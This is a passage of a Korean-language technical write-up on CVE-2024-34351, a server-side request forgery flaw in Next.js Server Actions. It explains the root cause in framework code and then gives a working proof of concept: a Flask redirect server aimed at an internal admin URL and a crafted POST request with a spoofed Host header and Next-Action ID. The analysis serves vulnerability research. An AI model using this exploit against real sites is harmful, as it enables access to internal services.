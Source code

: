```tsx
        }

        return new FlightRenderResult(response.body!)
      }
    } catch (err) {
      // we couldn't stream the redirect response, so we'll just do a normal redirect
      console.error(`failed to get redirect response`, err)
    }
...
```

코드 로직을 확인해보면 `const host = originalHost.value` 으로 `Host` 헤더를 참조하여 `fetchUrl` 을 생성하고, 해당 URL에 HEAD 요청을 전송한 뒤 응답 `content-Type` 이 `RSC_CONTENT_TYPE_HEADER` (`text/x-component`) 라면 GET 요청을 전송하는 것을 확인할 수 있다.

```tsx
export const RSC_CONTENT_TYPE_HEADER = "text/x-component" as const;
```

또한 GET 요청 전송 이후 응답의 body를 참조하여 렌더링 결과를 생성하는 것을 확인할 수 있다. 이와 같은 로직으로 인해 해당 취약점이 발생했다.

### Part3. PoC for CVE-2024-34351

root cause에서 알 수 있듯이, 취약점의 증명을 위해서 충족 되어야 하는, 또한 알아야 하는 조건은 다음과 같다.

- `Server-Action` 의 사용 여부 및 Action ID(클라이언트 측에서 확인 가능한 값)
- `HEAD` 요청 시 `content-Type` 으로 `text/x-component` 를 반환하고 `GET` 요청 시 요청자를 원하는 URL로 redirect 시키는 개인 서버

따라서 취약점의 재현을 위해선 아래와 같은 서버를 동작 시키고

```python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://127.0.0.1/admin') # 요청을 보내고 싶은 URL

```

클라이언트 측에 노출된 Action ID를 찾아 서버 측에 다음과 같이 요청을 전송하면 된다.

```
POST / HTTP/1.1
Host: <공격자의 서버 URL>/
Content-Length: 2
Next-Action: <발견한 Action ID>

[]
```
